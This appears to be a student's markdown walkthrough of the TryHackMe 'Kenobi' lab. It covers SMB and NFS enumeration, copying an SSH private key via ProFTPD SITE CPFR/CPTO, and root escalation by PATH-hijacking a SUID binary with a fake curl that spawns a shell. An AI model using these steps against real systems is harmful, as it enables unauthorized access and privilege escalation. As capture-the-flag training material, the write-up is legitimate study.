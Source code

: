 # 17. Kenobi 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**

#categoty/windows 
#other/tool
#other/GAtactics 
#other/richInfo
#privilegeEscalation/moderate 
#privilegeEscalation/SUID



## Gaining Access 😉

- nmap script scan on 445th port which runs microsoft-ds/smb
- smbclient enumeration. reffer command [[#Important commands 🔥]]--> 2
- logged in with user password of attacking machine
- just typed `?` for help
- files can be downloaded with `smbget` command [[#Important commands 🔥]] -> 3
- nmap enumeration on rpcbind port 111. command [[#Important commands 🔥]]-->4 
- copied ssh key from /home/kenobi/.ssh/id_rsa to var/tmp using SITE CPFR & SITE CPTO command
- mkdir /mnt/kenobiNFS & `sudo mount ip:/var /mnt/kenobiNFS`
- `sudo mount 10.10.203.188:/var /mnt/kenobiNFS`
- copied id_rsa to present directory & connected with ssh 



## Maintaining Access 🥷
- /usr/bin/menu found with find -u=s mode
	- SUID
- running binary without sudo 
- that dosen't made more sense
- `strings /usr/bin/menu`
- output
	```
	curl -I localhost  
	uname -r  
	ifconfig
	```
	in this, running binary like curl and uname without full path `/usr/bin/curl`
- cd to tmp
- created new file named curl with content, reffer [[#Important commands 🔥]]-->6
- changed permission of curl & added `/tmp` to path
- executed `/usr/bin/menu`<--> officially root now!



## Important commands 🔥
1. nmap scan
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
	```
2. smbclient
	```
	smbclient //10.10.203.188/anonymous
	```
3. sbmget
	```
	smbget \-R smb://10.10.203.188/anonymous
	```
4. rcpbind command
	```
	nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.203.188
	```
5. find syntax to search SUID
	```
	find / -perm -u=s -type f 2>/dev/null
	```
6. curl on tmp
	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	```
	
	

	
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- netcat to connect any port `nc <ip> <port> `  eg: `nc 10.10.203.188 21`
- make permission 600 for ssh keys: id_rsa
- -rw(**SUID**)rw(**SGID**)rw(stickybit)--> SUID permission
	- **SUID**
		user execute file with file owner permission
	- **SGID**
		user execute with pemission of group owner
		File created in directory gets the same group owner.
	- **Stickybit**
		Users are prevented from deleting files from other users.
- executable can be open with `strings` as human readable
		
		


--------------------------------
**By Nibras Muhammed** 🤓🖥️





